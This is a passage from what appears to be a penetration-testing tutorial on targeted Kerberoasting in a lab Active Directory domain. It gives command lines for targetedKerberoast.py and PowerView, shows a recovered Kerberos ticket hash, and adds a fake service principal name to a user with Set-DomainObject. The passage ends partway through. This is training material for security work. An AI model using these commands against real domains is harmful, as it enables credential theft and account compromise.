 Now we can use the `Pedro` account to attack the `Rita` account and try to retrieve its hash (we can also use the option `-o filename.txt` to save the hash into a file):

#### Targeted Kerberoasting from Linux

```shell
python3 targetedKerberoast.py -vv -d inlanefreight.local -u pedro -p SecuringAD01 --request-user rita --dc-ip 10.129.205.81

[*] Starting kerberoast attacks
[*] Attacking user (rita)
[DEBUG] {'Rita': {'dn': 'CN=Rita,CN=Users,DC=INLANEFREIGHT,DC=LOCAL', 'spns': []}}
[DEBUG] User (%s) has no SPN, attempting a targeted Kerberoasting now
[VERBOSE] SPN added successfully for (Rita)
[+] Printing hash for (Rita)
$krb5tgs$23$*Rita$INLANEFREIGHT.LOCAL$inlanefreight.local/Rita*$e8475a2d6c91ff416a581479970c0f70<SNIP>
[VERBOSE] SPN removed successfully for (Rita)

```

Note: If we get the error "Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)" while running targetedKerberoast.py or any other tool from Linux that use Kerberos as an authentication protocol, we need to sync the Linux machine's clock with the Active Directory DC's clock, using the ntpdate command, for example, sudo ntpdate DC\_IP\_ADDRESS.

## Targeted Kerberoasting from Windows

From Windows systems, we can utilize `Set-DomainObject` and `Get-DomainSPNTicket` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) to carry out a `targeted Kerberoasting` attack:

#### Targeted Kerberoasting from Windows

```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser Rita | Select serviceprincipalname

serviceprincipalname
--------------------

```

#### Setting the SPN

```powershell
PS C:\Tools> Set-DomainObject -Identity rita -Set @{serviceprincipalname='nonexistent/BLAHBLAH'} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=rita)(name=rita)(displayname=rita))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'nonexistent/BLAHBLAH' for object 'Rita'

```
